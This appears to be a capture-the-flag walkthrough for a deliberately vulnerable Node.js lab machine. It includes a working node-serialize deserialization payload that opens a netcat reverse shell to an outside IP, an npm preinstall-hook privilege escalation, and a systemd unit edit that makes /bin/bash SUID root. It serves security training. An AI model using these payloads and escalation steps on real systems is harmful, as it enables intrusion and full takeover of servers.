 # ENUMERATION
Lets start with port scan.
```bash
Nmap scan report for 10.10.94.18
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

```

We have only one port open which is running nodejs. We can also verify this by *HTTP-Headers*.
```bash
HEAD / HTTP/1.1

HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D; Max-Age=1200; Path=/; Expires=Wed, 14 Apr 2021 18:32:37 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 7599
ETag: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
Date: Wed, 14 Apr 2021 18:12:37 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

We have a header `X-Powered-By: Express` which tells the server is running NodeJs. Also we have a cookie already without any login. Decoding the cookie
```json
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```
Changing username to `admin` and `isGuest` param to true, we were welcomed as admin. But nothing interesting. From this, lets try javascript deserialization attack.
Using few blog post, came across a payload. Final payload
```javascript
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.5.42 9991 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```
Base64 encode this and send it to the server. We have a connection back. 

### Shell as www-data
Looking at the *server.js*, we found the vulnerability. Our cookie was directly going in unserialize function without any sanitization.

```javascript
app.get('/', function(req, res) {
 if (req.cookies.session) {
   var str = new Buffer(req.cookies.session, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     var username2 = JSON.stringify(obj.username).replace(/[^0-9a-z]/gi, '');
     obj.username = username2
     res.render('../index', {username: obj.username})
```

Checking for command with sudo rights
```bash
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

We have rights to run `npm` as `serv-manage` user. Tried running it in */tmp* directory, but it was unsuccessful as we dont have write permission there. Only writable directory was */dev/shm* and obv our home dir.
```bash
cd /dev/shm
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo -u serv-manage npm -C .i
```
Got shell as `serv-manage` user and can grab user.txt now.


### ROOT

Checking for sudo permission again for this user, we found:

```bash
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```
Current user can start and stop `vulnnet-auto.timer` service. Looking at permission of this service, seems to be writable by `serv-manage` user.
```bash
serv-manage@vulnnet-node:/dev/shm$ ls -la /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24 16:59 /etc/systemd/system/vulnnet-auto.timer
```
Looking at content of this service
```bash
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```
This service was calling another service named `vulnnet-job.service`. Checking permission of the same and it was readable & writable by our current user. Checking the content
```
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

As we can edit this file, we can change the `ExecStart` param to execute a malicious command.
```bash
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=chmod +xs /bin/bash

[Install]
WantedBy=multi-user.target
```
The above changes in the service does not seems to work. Changing `ExecStart=chmod +xs /bin/bash` to `/bin/bash -c "chmod +xs /bin/bash"`.
```bash
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "chmod +xs /bin/bash"

[Install]
WantedBy=multi-user.target
```
Starting the service. And we have suid bit set on `/bin/bash`
```bash
serv-manage@vulnnet-node:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```
Now we can simply use `bash -p` and we are root.
